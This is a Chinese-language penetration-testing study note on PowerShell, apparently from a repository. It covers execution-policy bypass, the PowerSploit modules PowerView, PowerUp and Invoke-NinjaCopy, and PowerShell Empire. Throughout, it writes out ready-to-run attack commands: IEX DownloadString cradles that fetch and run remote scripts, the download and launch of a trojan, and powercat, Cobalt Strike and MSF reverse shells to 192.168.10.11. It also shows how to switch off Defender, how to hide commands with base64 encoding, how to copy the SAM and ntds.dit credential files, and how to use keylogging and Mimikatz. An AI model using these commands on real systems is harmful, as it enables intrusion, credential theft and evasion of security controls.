




# powershell

## 简介

Windows PowerShell是一种命令行外壳程序和脚本环境，它内置在Windows7及其以上的系统中，使命令行用户和脚本编写者可以利用.NET Framework的强大功能。PowerShell无须写到磁盘中，它可以直接在内存中运行。

**不区分大小写**

特点：

- 在Windows7以上版本的操作系统中是默认安装的。
- 脚本可以在内存中运行，不需要写入磁盘。
- 几乎不会触发杀毒软件。
- 可以远程执行。
- 目前很多工具都是基于PowerShell开发的。
- 使Windows脚本的执行变得更容易。
- cmd.exe的运行通常会被阻止，但是PowerShell的运行通常不会被阻止。
- 可用于管理活动目录。

各操作系统的PowerShell版本：

`Get-Host`或者 `$PSVersionTable.PSVersion`来查看当前powershell版本

- | **操作系统**                            | **PowerShell版本** |
    | --------------------------------------- | ------------------ |
    | Winxp/WinServer2003                     | 默认没有powershell |
    | Windows7、Windows       Server2008      | 2.0                |
    | Windows8、Windows       Server2012      | 3.0                |
    | Windows8.1、Windows       Server2012 R2 | 4.0                |
    | Windows10、Windows       Server2016     | 5.0                |

- 在64位的Windows操作系统中，存在两个版本的PowerShell，一个是x64版本的，一个是x86版本的。这两个版本的执行策略不会互相影响，可以把它们看成是两个独立的程序。
- x64版本PowerShell的配置文件在  C:\Windows\SysWOW64\WindowsPowerShell\v1.0 目录下。
- Powershell包含两个应用程序组件：基于文本的标准控制台(powershell.exe) 和 集成了命令行环境的图形化界面(ISE：powershell_ise.exe)。

注：Server服务器默认不自带powershell_ise.exe，要想安装ISE，打开powershell控制台，运行：Add-WindowsFeaturePowerShell-ise 。

在cmd下输入powershell命令即可进入powershell中

**.ps1文件：**

- 一个PowerShell脚本其实就是一个简单的文本文件，这个文件包含了一系列的PowerShell命令，每个命令显示为独立的一行，PowerShell文件的后缀为.ps1。

**执行策略**：

- **为防止恶意脚本的执行，PowerShell有一个执行策略，默认情况下，这个执行策略被设置为受限。**
- 我们可以使用：`Get-ExecutionPolicy -List` 命令查看PowerShell当前的执行策略。它有4个策略。

  - **Restricted：脚本不能运行(默认设置)**

  - RemoteSigned：本地创建的脚本可以运行，但是从网上下载的脚本不能运行(拥有数字证书签名的除外)
  - AllSigned：仅当脚本由受信任的发布者签名时才能运行
  - Unrestricted：允许所有的脚本执行
  - Bypass：突然多出来一个,绕过执行安全策略。
- **修改PowerShell执行策略**
    - `Set-ExecutionPolicy     策略名`    #该命令需要管理员权限运行
    - `Set-ExecutionPolicy 策略名 -Scope CurrentUser` #只设置当前用户的powershell执行策略，不需要管理员权限

**运行脚本**：直接`.\test.psl`就能运行

## 绕过执行策略执行PowerShell脚本:

在渗透测试时，需要采用一些方法绕过策略来执行PowerShell脚本：

- **下载远程PowerShell脚本在cmd中启动powershell绕过远程权限执行:**

    - 经过测试，在cmd窗口执行远程下载的powershell脚本，不论当前策略，都可以直接运行（win10下测试失败，无法执行，win8下测试成功可以执行）。而powershell窗口不行。

    - ```powershell
        #cmd窗口执行以下命令
        powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
        下载test.ps1之后就会直接执行
        #DownloadString：文件下载到字符串
        #IEX（Invoke-Expression的别名）：用来把字符串当作命令执行。类型php的eval
        #-c执行powershell命令
        
        #在powershell窗口执行
        IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
        ```

- **绕过本地权限执行**:

    - 上传test.ps1到目标主机，**在cmd环境下**，在目标主机本地当前目录执行该脚本

    - **powershell -exec bypass**  **启动绕过安全策略的powershell**。

    - **powershell  -exec bypass 进入powershell然后执行脚本**，这里面的powershell环境就没有安全策略了

    - `powershell.exe -exec bypass -W hidden -nop -File test.ps1`，不会进行powershell环境，直接执行脚本

        - ```powershell
             powershell -help 可以查看这些参数的含义
                
            -ExecvtionPolicy Bypass（-exec bypass）：绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PoweShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则
            
            -WindowStyle Hidden(-w hidden)：隐藏窗口，也就是执行完命令后，窗口隐藏，不是关闭窗口
            
            -command(-c)：执行powershell的命令
            
            -NoProfile(-nop)：PowerShell控制台不加载当前用户的配置文件
            -NoLogo：启动不显示版权标志的PowerShell
            -Nonlnteractive(-noni)：非交互模式
            -Noexit：执行后不退出shell，这在使用键盘记录等脚本时非常重要 
            -EncodedCommand（-enc）  base64编码的字符串： 接受命令以 base-64 编码的字符串版本。

    - powshell -exec bypass -c Import-Module ./Exfiltration;Get-Command -Module Exfiltration

        - **执行powershell模块里面的命令，常用**
        - 记得模块文件导入模块 **./** 和不要加**.psl**文件后缀，  **-c**命令很好用

- **下载远程文件，同时绕过本地权限并且执行**

    - ```cmd
        powershell -exec bypass IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
        ```


## 命令

- 在PowerShell下，命令的命名规范很一致，都采用了**动词-名词**的形式，如**New-Item**，**动词一般为Add、New、Get、Remove、Set**等。PoerShell还兼容cmd和Linux命令，如查看目录可以使用dir 或者 ls 。


- 不区分大小写
- 重定向
    - | 管道符的作用是将一个命令的输出作为另一个命令的输入
    -  ; 分号用来连续执行系统命令
    -  ＆是调用操作符，它允许你执行命令，脚本或函数
    -  双引号可以替换内部变量
    -  双引号里的双引号，单引号里的单引号，写两遍输出

cmd 下，可以直接调用powershell自带的命令 ：`powershell 命令名 命令的参数`  比如` powershell  Get-WmiObject -Class Win32_ComputerSystem ` 可以用（）把命令包裹起来，这样命令组合的时候就不会报错了。

`powershell echo (Get-WmiObject -Class Win32_ComputerSystem |Select-object -ExpandProperty UserName)`

### 常用命令

```powershell
Get-Alias -name dir 查看别名
Get-ExecutionPolicy 查看当前执行策略
Set-ExecutionPolicy 设置执行的策略
Get-Host 查看powershell版本
Get-Content 查看文件内容
Get-Content test.txt 显示文本内容
Set-Content test.txt-Value "hello,word" 设置文本内容
Get-Process 查看当前进程列表
start-process test.exe 
Get-Location 获取当前目录路径
Get-WmiObject -Class Win32_ComputerSystem |Select-object -ExpandProperty UserName
查看登录到物理机的用户
```

### **文件操作类的PowerShell命令**

```powershell
新建目录test：New-Item test -ItemType directory
删除目录test：Remove-Item test
新建文件test.txt：New-Item test.txt -ItemType file
新建文件test.txt，内容为 hello：New-Item test.txt -ItemType file -value "hello"
删除文件test.txt：Remove-Item test.txt
查看文件test.txt内容：Get-Content test.txt
设置文件test.txt内容t：Set-Content test.txt -Value "haha"
给文件test.txt追加内容：Add-Content test.txt -Value ",word!"
清除文件test.txt内容：Clear-Content test.txt
```

### **文件下载类的PowerShell命令**

- 有多种命令，Invork-WebRequest，WebClient对象，BitsTransfer模块。

- **IEX（Invoke-Expression的别名）：用来把字符串当作命令执行，加了这个命令就不用再加`-c`命令了。**

- 主要使用WebClient对象

    - `(New-Object System.Net.Webclient).DownloadString('url')` 下载文件到字符串变量里面。
    -  `(new-object system.net.webclient).downloadfile('url','d:/test.exe');`   下载文件到本地，支持相对路径，绝对路径。

- cmd下

     ```cmd
     #下载文件到指定目录
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');
     #下载文件到当前目录
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','./test.exe');
     
     #远程下载木马文件并执行：
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');start-process test.exe
     
     远程下载 test.ps1 脚本，直接执行，该命令可以绕过powershell的执行策略。
     powershell  IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
     
     远程下载 powercat.ps1 脚本，并带参数运行，该命令可以绕过powershell的执行策略：
     powershell -exec bypass IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
     
     ```

### 渗透常用PowerShell命令

```shell
#关闭Windows自带的Defender防火墙(需要管理员权限)
powershell Set-MpPreference -disablerealtimeMonitoring $true   

#下载文件
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');

#反弹NC shell  ：
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd

#反弹CobaltStrike shell 
powershell.exe  IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/XXX.ps1'))

#反弹MSF shell 
powershell  IEX (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/7788.ps1');xx.ps1

```

### 使用base64对poweshell命令进行编码

`-EncodedCommand`  ：接受以 base-64 编码的字符串命令。**如果直接base64编码命令，会乱码**

- ```cmd
    PS C:\Users\lambo\Downloads> powershell -Nop -NonI -w hidden -exec bypass -enc SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJjbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTI3LjAuMC4xOjgwMDAvdGVzdC5wczEnKQ==
    䕉⡘敎⵷扏敪瑣匠獹整⹭敎⹴敗换楬湥⥴䐮睯汮慯卤牴湩⡧栧瑴㩰⼯㈱⸷⸰⸰㨱〸〰琯獥⹴獰✱�
    : 无法将“䕉⡘敎⵷扏敪瑣匠獹整⹭敎⹴敗换楬湥⥴䐮睯汮慯卤牴湩⡧栧瑴㩰⼯㈱⸷⸰⸰㨱〸 〰
    琯獥⹴獰✱�”项识别为 cmdlet、函数、脚本文件或可运行程序的名称。请检查名称
    的拼写，如果包括路径，请确保路径正确，然后再试一次。
    所在位置 行:1 字符: 1
    
    base64字符串是IEX(New-Object System.Net.Webclient).DownloadString('http://127.0.0.1:8000/test.ps1')
    ```

**使用powershell来base64加密**

- ```powershell
    $fileContent= “所要编码的脚本内容”
    $bytes= [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encodedCommand= [Convert]::ToBase64String($bytes)
    echo $encodedCommand
    编码后的脚本可以通过如下命令解析执行
    powershell -enc $encodedCommand
    ```

- ```cmd
    (base) PS C:\Users\lambo\Downloads> $fileContent="IEX(New-Object System.Net.Webclient).DownloadString('http://127.0.0.1:8000/test.ps1')"
    (base) PS C:\Users\lambo\Downloads> $bytes= [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    (base) PS C:\Users\lambo\Downloads> $encodedCommand= [Convert]::ToBase64String($bytes)
    (base) PS C:\Users\lambo\Downloads> echo $encodedCommand
    SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AdABlAHMAdAAuAHAAcwAxACcAKQA=
    (base) PS C:\Users\lambo\Downloads>
    ```

- 然后`powershell -Nop -NonI -w hidden -exec bypass -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AdABlAHMAdAAuAHAAcwAxACcAKQA=`执行成功

**或者使用ps-encoder.py脚本编码.ps1文件**

## powershell模块

在大型的Powershell项目下，通常会有 .ps1 、.psd1 和 .psm1 几种后缀的文件。如PowerSploit工具

```cmd
(base) PS D:\pentest_tool\5.内网渗透\PowerSploit-3.0.0\AntivirusBypass> ls


    目录: D:\pentest_tool\5.内网渗透\PowerSploit-3.0.0\AntivirusBypass


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
------        2015/12/19      8:33            844 AntivirusBypass.psd1
------        2015/12/19      8:33             67 AntivirusBypass.psm1
------        2015/12/19      8:33           6583 Find-AVSignature.ps1
------        2015/12/19      8:33            776 Usage.md
```

下面说下这几种后缀文件的用法。
- .ps1 文件就是PowerShell脚本文件。一个模块可以有好多个ps1文件
- .psd1 文件是这个模块的介绍
- .psm1 是模块配置文件。

**导入模块**

- `Import-Module ./AntivirusBypass.psd1 ` 或者`Import-Module ./AntivirusBypass` 
- 这样就会将目录下的ps1文件导入进来，我们通过命令名就可以调用这些功能了。

**直接导入ps1文件**

-  **Import-Module ./Find-AVSignature.ps1**
- 使用`.`导入： `. ./Find-AVSignature.ps1` 
- **然后就有Find-AVSignature这个模块了。**

导入文件之后，使用`Get-Command -Module 模块名`  查看这个模块有哪些命令

然后`Get-Help 命令名`(不需要导入模块也可以使用，只要脚本在当前目录就行)。查看怎么使用模块的命令

# PowerSploit

PowerView.ps1是一款基于PowerShell的后渗透框架软件，包含了很多PowerShell的攻击脚本，它们主要用于渗透中的信息侦测，权限提升、权限维持等。PowerSploit项目地址：https://github.com/PowerShellMafia/PowerSploit

15年后就没添加了，所以会被杀毒软件杀掉。



- **ActivirusBypass：发现杀毒软件的查杀特征**
- **CodeExecution：在目标主机上执行代码**
- **Exfiltration：目标主机上的信息搜集工具**
- **Mayhem：蓝屏等破坏性的脚本**
- **Persistence：后门脚本**
- **Privsec：提权等脚本**
- **Recon：以目标主机为跳板进行内网信息侦查**
- **ScriptModification：在目标主机上创建或修改脚本**

## Exfiltration

**`Import-Module ./Exfiltration`**    导入模块

`Get-Command -Module Exfiltration` 查看模块有哪些命令

`Get-Help xxx`                   查看命令怎么用

```
Get-Command -Module Exfiltration*
CommandType     Name                                               ModuleName  
-----------     ----                                               ----------  
Function        Get-GPPPassword                                    Exfiltration
记录用户的键盘输入 Function        Get-Keystrokes                                     Exfiltration
运行后就会后台执行，然后键盘输出就会保存在文件中了。
Function        Get-TimedScreenshot                                Exfiltration
Function        Get-VaultCredential                                Exfiltration
Function        Get-VolumeShadowCopy                               Exfiltration
Function        Invoke-CredentialInjection                         Exfiltration
Function        Invoke-Mimikatz                                    Exfiltration
Function        Invoke-NinjaCopy                                   Exfiltration
Function        Invoke-TokenManipulation                           Exfiltration
Function        Mount-VolumeShadowCopy                             Exfiltration
Function        New-VolumeShadowCopy                               Exfiltration
Function        Out-Minidump                                       Exfiltration
Function        Remove-VolumeShadowCopy                            Exfiltration
```

本文主要讲的是PowerSploit用于搜索域信息的模块，其他模块用法一致。

首先，我们想用里面哪个脚本，就先下载该脚本，然后导入该脚本，执行其中的模块。我们以PowerView.ps1脚本为例，该脚本主要用于搜集域信息。

- 我们先下载PowerView.ps1脚本到本地，然后在当前目录下打开cmd，执行以下命令执行PowerView.ps1脚本中的Get-NetDomain模块，如果要执行该脚本的其他模块，亦是如此
- powershell       -exec bypass Import-Module .\powerview.ps1;Get-NetDomain 

如果需要远程加载模块的话，我们先将PowerView.ps1放到我们的http服务目录下，然后执行以下命令

- powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain


## PowerView.ps1脚本的使用：

PowerView.ps1脚本位于PowerSploit的Recon目录下，该模块主要用于域内信息的收集。



该脚本有以下一些模块

```bash
Get-NetDomain #查看域名称
Get-NetDomainController #获取域控的信息
Get-NetForest #查看域内详细的信息
Get-Netuser #获取域内所有用户的详细信息
Get-NetUser | select name #获得域内所有用户名
Get-NetComputer | select name #获得域内所有主机名
Get-NetComputer *admin* #获得域内主机名中带有admin的
Get-NetGroup #获取域内所有组名
Get-NetGroup *admin* #获得域内组中带有admin的
Get-NetGroup -UserName test #查询test用户在哪些组中
Get-UserEvent #获取指定用户日志信息
Get-Netshare #获取本机的网络共享
Get-NetProcess #获取本机进程的详细信息
Get-NetOU #获取域内OU信息
Get-NetFileServer #根据SPN获取当前域使用的文件服务器
Get-NetSession #获取在指定服务器存在的Session信息
Get-NetRDPSESSION #获取本机的RDP连接session信息
Get-NetGPO #获取域内所有组策略对象
Get-ADOBJECT #获取活动目录的信息
Get-DomainPolicy #获取域默认策略
Invoke-UserHunter #查询指定用户登录过的机器
Invoke-EnumerateLocalAdmin #枚举出本地的管理员信息
Invoke-ProcessHunter #判断当前机器哪些进程有管理员权限
Invoke-UserEventHunter #根据用户日志获取某域用户登陆过哪些域机器
```

## PowerUp.ps1脚本的使用

- PowerUp.ps1脚本是 Privsec      目录下的一个脚本，功能非常强大。拥有很多用来寻找目标主机Windows服务配置错误来进行提权的模块。当我们无法通过 windows      内核漏洞进行提权的话，这个时候我们就可以利用该脚本来寻找目标主机上Windows服务配置错误来进行提权，或者利用常见的系统服务，通过其继承的系统权限来完成提权。

- 

我们来看下该脚本下模块的功能：

**Service Enumeration(服务枚举)**

Get-ServiceUnquoted 该模块返回包含空格但是没有引号的服务路径的服务

Get-ModifiableServiceFile 该模块返回当前用户可以修改服务的二进制文件或修改其配置文件的服务

Get-ModifiableService 该模块返回当前用户能修改的服务

Get-ServiceDetail 该模块用于返回某服务的信息，用法: Get-ServiceDetail -servicename 服务名

**Service Abuse(服务滥用)** 

Invoke-ServiceAbuse 该模块通过修改服务来添加用户到指定组，并可以通过设置 -cmd 参数触发添加用户的自定义命令

Write-ServiceBinary 该模块通过写入一个修补的C*#服务二进制文件，它可以添加本地管理程序或执行自定义命令，Write-ServiceBinary与Install-ServiceBinary不同之处自安于，前者生成可执行文件，后者直接安装服务*

Install-ServiceBinary 该模块通过Write-ServiceBinary写一个C*#的服务用来添加用户，*

Restore-ServiceBinary 该模块用于恢复服务的可执行文件到原始目录，使用：Restore-ServiceBinary -servicename 服务名

**DLL Hijacking(DLL注入)** 

Find-ProcessDLLHijack 该模块查找当前正在运行的进程潜在的dll劫持机会。

Find-PathDLLHijack 该模块用于检查当前 %path% 的哪些目录是用户可以写入的

Write-HijackDll 该模块可写入可劫持的dll

**Registry Checks(注册审核)**

Get-RegistryAlwaysInstallElevated 该模块用于检查AlwaysInstallElevated注册表项是否被设置，如果已被设置，则意味着SAM文件是以System权限运行的

Get-RegistryAutoLogon 该模块用于检测Winlogin注册表的AutoAdminLogon项是否被设置，可用于查询默认的用户名和密码

Get-ModifiableRegistryAutoRun 该模块用于检查开机自启的应用程序路径和注册表键值，然后返回当前用户可修改的程序路径，被检查的注册表键值有以下：

HKLM\Software\Microsoft\Windows\CurrentVersino\Run

HKLM\Software\Microsoft\Windows\CurrentVersino\RunOnce

HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunService

HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnceService

HKLM\Software\Microsoft\Windows\CurrentVersion\RunService

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceService

**Miscellaneous Checks(杂项审核)** 

Get-ModifiableScheduledTaskFile 该模块用于返回当前用户能够修改的计划任务程序的名称和路径 

Get-Webconfig 该模块用于返回当前服务器上web.config文件中的数据库连接字符串的明文

Get-ApplicationHost 该模块利用系统上的applicationHost.config文件恢复加密过的应用池和虚拟目录的密码

Get-SiteListPassword 该模块检索任何已找到的McAfee的SiteList.xml文件的明文密码

Get-CachedGPPPassword 该模块检查缓存的组策略首选项文件中的密码

Get-UnattendedInstallFile 该模块用于检查以下路径，查找是否存在这些文件，因为这些文件可能含有部署凭据 

C:\sysprep\sysprep.xml

C:\sysprep\sysprep.inf

C:\sysprep.inf

C:\Windows\Panther\Unattended.xml

C:\Windows\Panther\Unattend\Unattended.xml

C:\Windows\Panther\Unattend.xml

C:\Windows\Panther\Unattend\Unattend.xml

C:\Windows\System32\Sysprep\unattend.xml

C:\Windows\System32\Sysprep\Panther\unattend.xml

**Other Helpers/Meta-Functions(其他一些模块的帮助)** 

Get-ModifiablePath 该模块标记输入字符串并返回当前用户可以修改的文件

Get-CurrentUserTokenGroupSid 该模块返回当前用户参与的所有小岛屿发展中国家，无论它们是否已禁用。

Add-ServiceDacl 该模块将dacl字段添加到get-service返回的服务对象中

Set-ServiceBinPath 该模块通过Win 32 api方法将服务的二进制路径设置为指定的值。

Test-ServiceDaclPermission 该模块用于检查所有可用的服务，并尝试对这些打开的服务进行修改。如果能修改，则返回该服务对象。使用：Test-ServiceDaclPermission -servicename 服务名

Write-UserAddMSI 该模块写入一个MSI安装程序，提示要添加一个用户。

Invoke-AllChecks 该模块会自动执行 PowerUp.ps1 下所有的模块来检查目标主机是否存在服务配置漏洞  

**以下是这些模块提权的原理：** 

- Get-ServiceUnquoted     模块提权     (该模块利用了Windows的一个逻辑漏洞，即当文件包含空格时，WindowsAPI会解释为两个路径，并将这两个文件同时执行，这个漏洞在有些时候会造成权限的提升)。
- Test-ServiceDaclPermission     模块提权     (该模块会检查所有可用的服务，并尝试对这些打开的服务进行修改，如果可修改，则存在此漏洞)。Windows系统服务文件在操作系统启动时会加载执行，并且在后台调用可执行文件。比如在每次重启系统时，Java升级程序都会检测出Oracle网站是否有新版Java程序。而类似Java程序之类的系统服务程序，在加载时往往都是运行在系统权限上的。所以如果一个低权限的用户对于此类系统服务调用的可执行文件具有可写的权限，那么就可以将其替换成我们的恶意可执行文件，从而随着系统启动服务器获得系统权限。。

## Invoke-Allchecks模块

powershell -exec bypass -c import-module .\PowerUp.ps1;Invoke-Allchecks -verbose

**运行该脚本，该脚本会自动检查PowerUp.ps1下所有的模块，并在存在漏洞利用的模块下的AbuseFunction中直接给出利用方法**



## **Invoke-NinjaCopy.ps1脚本的使用**

- 该脚本在Exfiltration目录下，该文件的作用是复制一些系统无法复制的文件，比如sam文件。还可以在域环境中传输文件(前提是执行命令的用户是域用户)

注：该脚本需要管理员权限运行

**复制文件**

Import-Module .\Invoke-NinjaCopy.ps1

Invoke-NinjaCopy -Path C:\Windows\system32\config\sam -Verbose -LocalDestination C:\Users\administrator\Desktop\sam

**域环境中传输文件**

Copy-Item '[\\dc.offensive.local\C$\Users\administrator\Desktop\ntds.dit'-Destination](file://dc.offensive.local/C$/Users/administrator/Desktop/ntds.dit'-Destination) '[\\Client1.offensive.local\C$\Users\alice\Desktop\tools\ntds.dit](file://Client1.offensive.local/C$/Users/alice/Desktop/tools/ntds.dit)'  #将dc.offensive.local主机上c:\users\administrator\desktop\ntds.dit文件复制到 Client1.offensive.local 主机的C:\users\alice\Desktop\tools\ntds.dit文件

# powershell-empire

- powershell-empire     windows后渗透模块
- 一般生成powershell在目标机器执行，然后反弹给metasploit
- <empire>菜单

help：任何菜单都有的命令，help <command>查看命令帮助，table能补充全部命令

list：

listeners 显示当前活动的监听器，并进入<listeners>

agents 查看成功监听的靶机agent,agents菜单

- <listeners>

- - uselistenrer<type>:设置一个type类型监听器，http(s),http_com(使用IE的COM组件进行交互)

            - - http_foreign，这个跟http看不出差别在哪。http_hop，接收到的请求转发到其他的listener，猜测用于C2。
                    - dbx/onedrive，使用dropbox或者onedrive作为信息传递的中介，类似QQ空间上线或者weibo上线的远控。
                    - http_mapi，通过邮件上线。meterpreter，就不多说了，大家都知道的。

载荷器：launcher :launcher powershell/python <listenname> 生成载荷器代码，然后在靶机上运行代码即可

 usestager <path> 选择载荷器,set Listener <name>>要与监听器名字一样

​     generate/execute 生成载荷器文件，把载荷器文件到靶机上运行

kill <name> 删除监听

- <listerns/***>

info查看配置

set配置参数

execute 执行给定的监听器

<agents>

interact <name>:进入靶机交互界面

list stale #列出已丢失反弹代理权的靶机

 

<靶机name>

sysinfo,info

sc:屏幕截图

usemodule：查看可以用的模块，217个

agentcmds：查看agent下的命令

searchmodule <name>   Search Empire module names/descriptions.

<scripts> 使用scriptimport ./path/命令导入脚本。 使用代理中的“ scriptcmd”命令，

shell <command> :使用靶级的shell运行命令

提权： bypassuac 模块提权,然后就可以用mimikatz来获得密码

creds：显示获得的密码，凭证

 

<反弹shell给msf>

使用模块 code_execution/invoke_shellcode

host 即 msf 所在机器的 ip，lport 即 msf 监听反弹 shell 的端口

exploit 默认是reverse_https 所有msf监听处理的时候设置成同样的paylaod
